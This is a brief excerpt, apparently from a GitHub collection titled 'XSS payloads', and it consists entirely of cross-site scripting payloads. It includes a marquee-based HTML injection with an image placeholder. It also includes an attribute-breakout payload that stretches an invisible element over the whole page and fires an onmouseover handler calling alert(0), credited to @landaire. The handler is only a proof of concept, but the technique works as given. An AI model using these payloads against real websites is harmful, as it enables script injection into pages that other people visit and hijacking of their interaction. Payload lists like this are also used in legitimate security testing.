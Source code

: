 # XSS payloads

```<marquee behavior="scroll" direction="left"><img src="<put image here>" width=“800” height=“600” alt="Natural" /></marquee>```

Scrolling marquee continuous

```style="width: 10000px; height: 10000px; position: absolute; top: 0; left: 0; z-index: 99999999" onmouseover=alert(0)" ```

On mouse over that covers page by @landaire

